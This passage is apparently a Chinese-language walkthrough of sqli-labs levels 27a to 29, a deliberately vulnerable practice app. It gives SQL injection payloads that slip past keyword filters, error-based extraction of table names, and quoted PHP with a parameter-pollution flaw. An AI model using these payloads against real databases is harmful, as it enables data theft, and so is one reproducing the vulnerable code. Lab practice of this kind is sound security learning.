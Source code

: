 ##### Less-27a 

```
?id=0"%0aUnIon%0aSElecT%0a1,(SeLect%0aflag%0afrom%0aflag),"3
```

##### Less-28 

```php
preg_replace('/union\s+select/i', "", $id);	    //Strip out UNION & SELECT.
```

不能同时出现 `union select`，还是遇到了之前那个 `%a0` 不解析的问题，但是可以 `union all select`，科学计数法 `0e1union` 也不行

```sql
id=0')%0aunion%0aall%0aseLect%0a1,2,group_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema=database();%00
```

如果可以报错注入的话

```sql
?id=2')%0aand%0a(extractvalue(1,concat(0x7e,(seLect%0agroup_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema=database()),0x7e)));%00
```

##### Less-28a 

与 28 差不多，并且过滤还减少了。。

##### Less-29 

一旦输入不是数字，直接跳到 `hacked.php`，一看源码可知存在 `HPP`即参数污染，这实际上是一个逻辑问题。

```php
$qs = $_SERVER['QUERY_STRING'];
$id1 = java_implimentation($qs);

// 参数污染在这里，php 同时接到两个一样的参数，以后一个为准
$id = $_GET['id'];

whitelist($id1);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  // 为啥不插 $id1

function whitelist($input) {
	$match = preg_match("/^\d+$/", $input);
	if (!$match) {
		header('Location: hacked.php');
	}
}

// 一找到 id 就返回，即返回的是第一个 id 的值
function java_implimentation($query_string) {
	$q_s = $query_string;
	$qs_array= explode("&",$q_s);

	foreach($qs_array as $key => $value) {
		$val=substr($value,0,2);
		if($val=="id") {
			$id_value=substr($value,3,30); 
			return $id_value;
		}
	}
}
```
